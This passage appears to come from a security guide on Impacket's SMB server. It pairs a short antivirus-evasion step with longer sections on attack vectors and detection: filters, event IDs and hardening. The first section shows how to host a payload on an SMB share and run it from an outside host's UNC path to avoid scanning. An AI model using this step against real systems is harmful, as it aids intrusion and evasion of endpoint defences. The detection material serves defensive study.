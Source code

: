 ### Bypassing Windows Defender and AV
```bash
# Step 1: Host files on SMB share instead of downloading
sudo python3 smbserver.py BYPASS /tmp/bypass

# Step 2: Execute directly from SMB share (may evade some AV detection)
# On Windows: \\192.168.1.100\BYPASS\payload.exe
# Many AV solutions have reduced scanning of network locations
```

## Security Implications

### Attack Vectors Enabled
- **File Transfer**: Easy method to transfer files to/from compromised systems
- **Credential Harvesting**: Capture NTLM authentication attempts
- **Lateral Movement**: Distribute tools and payloads across network
- **Data Exfiltration**: Extract sensitive data from compromised systems
- **NTLM Relay**: Component in NTLM relay attack chains

### Defensive Considerations
- **Network Monitoring**: Monitor for unusual SMB traffic patterns
- **Authentication Logging**: Log failed SMB authentication attempts
- **Egress Filtering**: Block outbound SMB traffic where not needed
- **SMB Security**: Disable SMBv1 and enforce SMB signing
- **Endpoint Detection**: Monitor for processes accessing network shares

## Detection Methods

### Network Detection
```bash
# Monitor for SMB traffic to unusual destinations
# Look for connections to non-domain SMB servers
# Check for anonymous SMB access attempts
# Monitor for failed authentication patterns

# Wireshark filters for detection:
# smb2 and ip.dst != <known_servers>
# smb.native_os contains "Unix" (Impacket fingerprint)
```

### Host-Based Detection
```bash
# Monitor for:
# - Processes accessing network shares
# - Files executed from network locations  
# - Unusual net use commands
# - SMB client activity to external IPs

# Windows Event IDs to monitor:
# 4648 - Logon attempt with explicit credentials
# 4776 - Computer attempted to validate credentials
# 5140 - Network share accessed
```
